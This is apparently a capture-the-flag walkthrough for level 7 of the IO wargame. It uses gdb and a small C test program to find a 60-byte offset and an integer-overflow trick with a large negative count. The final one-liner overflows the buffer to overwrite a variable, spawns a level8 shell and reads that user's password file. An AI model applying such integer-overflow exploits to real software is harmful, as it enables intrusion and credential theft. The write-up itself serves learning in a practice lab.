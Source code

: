 The source code for this level is in level07.c

We see that the `count` variable needs to be set to 0x574f4c46 in order for us to win. But there's a check at the beginning that prevents us from just simply passing in a positive number. We need to make the size parameter for memcpy into something that will overflow the `buf[10]` buffer and overwrite the `count` variable. Let's see how far apart they are in memory.
```
level7@io:/levels$ gdb -q level07
Reading symbols from /levels/level07...done.
(gdb) set disassembly-flavor intel
(gdb) display/10i $eip
(gdb) break main
Breakpoint 1 at 0x804841a
(gdb) run 1 AAAAA
Starting program: /levels/level07 1 AAAAA

Breakpoint 1, 0x0804841a in main ()
1: x/10i $eip
=> 0x804841a <main+6>:   and    esp,0xfffffff0
   0x804841d <main+9>:   mov    eax,0x0
   0x8048422 <main+14>:  sub    esp,eax
   0x8048424 <main+16>:  mov    eax,DWORD PTR [ebp+0xc]
   0x8048427 <main+19>:  add    eax,0x4
   0x804842a <main+22>:  mov    eax,DWORD PTR [eax]
   0x804842c <main+24>:  mov    DWORD PTR [esp],eax
   0x804842f <main+27>:  call   0x8048354 <atoi@plt>
   0x8048434 <main+32>:  mov    DWORD PTR [ebp-0xc],eax
   0x8048437 <main+35>:  cmp    DWORD PTR [ebp-0xc],0x9

...

(gdb) ni
0x08048462 in main ()
1: x/10i $eip
=> 0x8048462 <main+78>:  call   0x8048334 <memcpy@plt>
   0x8048467 <main+83>:  cmp    DWORD PTR [ebp-0xc],0x574f4c46
   0x804846e <main+90>:  jne    0x804849a <main+134>
   0x8048470 <main+92>:  mov    DWORD PTR [esp],0x8048584
   0x8048477 <main+99>:  call   0x8048344 <printf@plt>
   0x804847c <main+104>: mov    DWORD PTR [esp+0x8],0x0
   0x8048484 <main+112>: mov    DWORD PTR [esp+0x4],0x804858a
   0x804848c <main+120>: mov    DWORD PTR [esp],0x804858d
   0x8048493 <main+127>: call   0x8048324 <execl@plt>
   0x8048498 <main+132>: jmp    0x80484a6 <main+146>
(gdb) x/3xw $esp
0xbffffc30:  0xbffffc50  0xbffffe80  0x00000004
(gdb) x/xw $ebp-0xc
0xbffffc8c:  0x00000001
```

After looking at the disassembly, we can see that the `count` variable is at `[ebp-0xc]` and right before we call memcpy, the arguments for destination, source, and size are on the stack in that order. So the buffer `buf[10]` starts at 0xbffffc50 and `count` is at 0xbffffc8c.
```
(gdb) p 0xbffffc8c - 0xbffffc50
$1 = 60
```

So they're 60 bytes apart. We need to write 60 bytes up until `count` and then the next four bytes will overwrite it and we'll win. But we don't know how to accomplish this yet. This basic program will help us understand how we can make this happen. We need to know what the value of `count` is going to be when it's passed into memcpy and this will help us figure it out.
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv) {
    int count = atoi(argv[1]);

    printf("%i\n", count*sizeof(int));
    printf("%x\n", count*sizeof(int));

    return 0;
}

...

level7@io:/tmp/ZZZ$ gcc -o test test.c
level7@io:/tmp/ZZZ$ ./test -1 AAAA
-4
fffffffc
```

Since -4 is below 10, we can pass the first check `count >= 10`. It'll set the size argument for memcpy to be 0xfffffffc, and considering that memcpy treats the size as an unsigned int, that means that we're going to write WAY too much data. We need a smaller number. Let's try to cause an overflow by passing in a huge negative number and seeing what the result is.
```
level7@io:/tmp/ZZZ$ ./test -2147483648 AAAAA
0
0
level7@io:/tmp/ZZZ$ ./test -2147483647 AAAAA
4
4
level7@io:/tmp/ZZZ$ ./test -2147483646 AAAAA
8
8
level7@io:/tmp/ZZZ$ ./test -2147483640 AAAAA
32
20
level7@io:/tmp/ZZZ$ ./test -2147483630 AAAAA
72
48
level7@io:/tmp/ZZZ$ ./test -2147483632 AAAAA
64
40
```

So we see that really large negative numbers wrap back around and give us positive numbers. This will help us satisfy the original check against the `count` variable and allow us to write a controlled amount of data*. So remember we need 64 bytes where the first 60 are junk and the last 4 are "\x46\x4c\x4f\x57".
```
level7@io:/levels$ ./level07 -2147483632 $(python -c 'print "A"*60 + "\x46\x4c\x4f\x57"')
WIN!
sh-4.2$ whoami
level8
sh-4.2$ cat /home/level8/.pass
[Password for level8]
```

(*)If you're wondering why -2147483648 gives us 0 when you run that test program, go back to the walkthrough for level 2 and see if you can figure it out
